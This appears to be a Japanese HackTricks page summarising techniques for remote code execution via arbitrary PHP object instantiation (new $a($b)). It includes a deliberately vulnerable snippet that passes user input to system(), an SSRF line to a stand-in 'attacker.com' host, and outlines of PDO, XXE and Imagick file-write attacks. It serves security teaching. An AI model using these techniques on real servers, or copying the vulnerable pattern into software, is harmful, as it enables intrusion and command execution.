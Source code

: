 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

これは基本的に[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)の要約です。

## はじめに

`new $_GET["a"]($_GET["a"])`のような新しい任意のオブジェクトの作成は、リモートコード実行（RCE）につながる可能性があります。これは[**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)で詳述されています。この文書では、RCEを達成するためのさまざまな戦略を強調しています。

## カスタムクラスまたはオートローディングによるRCE

`new $a($b)`という構文は、**`$a`**がクラス名を表し、**`$b`**がコンストラクタに渡される最初の引数であるオブジェクトをインスタンス化するために使用されます。これらの変数は、GET/POSTのようなユーザー入力から取得されることがあり、文字列や配列である場合や、JSONから取得される場合には他の型として表示されることがあります。

以下のコードスニペットを考えてみてください：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
この場合、`$a`を`App`または`App2`に設定し、`$b`をシステムコマンド（例：`uname -a`）に設定すると、そのコマンドが実行されます。

**オートローディング関数**は、そのようなクラスが直接アクセスできない場合に悪用される可能性があります。これらの関数は、必要に応じてファイルからクラスを自動的にロードし、`spl_autoload_register`または`__autoload`を使用して定義されます：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
自動読み込みの動作はPHPのバージョンによって異なり、異なるRCEの可能性を提供します。

## 組み込みクラスによるRCE

カスタムクラスやオートローダーがない場合、**組み込みPHPクラス**がRCEに十分である可能性があります。これらのクラスの数は、PHPのバージョンや拡張機能に基づいて100から200の間です。`get_declared_classes()`を使用してリストできます。

興味のあるコンストラクタは、以下の例とリンク[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)に示すように、リフレクションAPIを通じて特定できます。

**特定のメソッドによるRCEには以下が含まれます：**

### **SSRF + Pharデシリアライズ**

`SplFileObject`クラスは、そのコンストラクタを通じてSSRFを可能にし、任意のURLへの接続を許可します：
```php
new SplFileObject('http://attacker.com/');
```
SSRFは、PHP 8.0以前のバージョンでPharプロトコルを使用することにより、デシリアライズ攻撃を引き起こす可能性があります。

### **PDOの悪用**

PDOクラスのコンストラクタは、DSN文字列を介してデータベースへの接続を許可し、ファイルの作成やその他のインタラクションを可能にします。
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHPのバージョン5.3.22および5.4.12までが、`SoapClient`および`SimpleXMLElement`コンストラクタを通じてXXE攻撃に対して脆弱であることが確認されました。これはlibxml2のバージョンに依存します。

## RCE via Imagick Extension

**プロジェクトの依存関係**の分析において、**Imagick**が新しいオブジェクトをインスタンス化することで**コマンド実行**に利用できることが発見されました。これは脆弱性を悪用する機会を提供します。

### VID parser

ファイルシステム内の任意の指定されたパスにコンテンツを書き込む能力を持つVIDパーサーが特定されました。これにより、ウェブアクセス可能なディレクトリにPHPシェルを配置し、リモートコード実行（RCE）を達成する可能性があります。

#### VID Parser + File Upload

PHPはアップロードされたファイルを一時的に`/tmp/phpXXXXXX`に保存することが知られています。**msl**プロトコルを利用するImagickのVIDパーサーは、ファイルパス内のワイルドカードを処理でき、一時ファイルを選択した場所に転送することを容易にします。この方法は、ファイルシステム内での任意のファイル書き込みを達成するための追加のアプローチを提供します。

### PHP Crash + Brute Force

[**元の文書**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)で説明されている方法では、削除前にサーバーのクラッシュを引き起こすファイルをアップロードします。一時ファイルの名前をブルートフォースすることで、Imagickが任意のPHPコードを実行することが可能になります。ただし、この技術は古いバージョンのImageMagickでのみ効果的であることが判明しました。

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
